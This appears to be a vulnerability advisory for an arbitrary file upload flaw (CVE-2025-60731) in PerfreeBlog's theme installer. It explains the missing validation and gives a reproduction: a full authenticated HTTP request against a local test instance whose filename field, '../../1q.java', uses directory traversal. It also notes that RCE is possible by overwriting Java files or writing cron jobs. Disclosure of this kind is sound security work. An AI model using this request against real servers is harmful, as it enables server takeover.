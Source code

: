 # PerfreeBlog v4.0.11 has an File Upload vulnerability in the installTheme function(CVE-2025-60731)

## Official Website
https://perfree.org.cn/

## Download Link
https://gitee.com/PerfreeBlog/PerfreeBlog


## Vulnerability Description
The PerfreeBlog system has an arbitrary file upload vulnerability, which allows uploading any file to the server and gaining server privileges.


## Vulnerable Version
Latest version 4.0.11


## Vulnerability Principle
The relevant code details are as follows:
The code for uploading theme files loads the uploaded theme files into the temp directory first without any verification, then executes the `installTheme` function.
![](./img/1.png)
When entering the `installTheme` function, it is found that it first decompresses the file. If the uploaded file is not a zip file, the decompression will fail, and the `file.delete()` function will not be executed. As a result, the uploaded file will be saved in the temp directory. Moreover, directory traversal can be performed using `../`, leading to a file upload vulnerability and potential file overwriting.
![](./img/2.png)


## Vulnerability Reproduction
First, log in to the background and navigate to Theme Management.
![](./img/3.png)

Click "Upload File" and capture the packet.
The interface is:
```
http://127.0.0.1:8086/api/auth/theme/installTheme
```
This interface allows uploading files with any suffix to the temp directory, and directory traversal can be performed using `../`.

```
POST /api/auth/theme/installTheme HTTP/1.1
Host: 127.0.0.1:8086
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:141.0) Gecko/20100101 Firefox/141.0
Accept: */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Authorization: Bearer eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJzdWIiOiJhZG1pbiIsImlzcyI6InNlY3VyaXR5IiwiaWF0IjoxNzU1NzQ0ODg1LCJhdWQiOiJzZWN1cml0eS1hbGwiLCJleHAiOjE3NTU3NTIwODV9.oniKav5M-QEoR93JWDGv4aa20gVWv7fm6xS07EYQhJ4
Content-Type: multipart/form-data; boundary=----geckoformboundary7dd0f6ff1964a2e44ae9ef79a114ffe3
Content-Length: 232
Origin: http://127.0.0.1:8086
Connection: keep-alive
Referer: http://127.0.0.1:8086/admin/theme
Cookie: 
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin

------geckoformboundary7dd0f6ff1964a2e44ae9ef79a114ffe3
Content-Disposition: form-data; name="file"; filename="../../1q.java"
Content-Type: text/plain

111111111111111
------geckoformboundary7dd0f6ff1964a2e44ae9ef79a114ffe3--
```
![](./img/4.png)
Successfully uploaded to the target directory. It is also possible to overwrite existing Java files to achieve RCE, as shown in the following figure.
![](./img/5.png)


For Linux systems, it is possible to write cron jobs, public-private keys, etc., to gain server privileges.
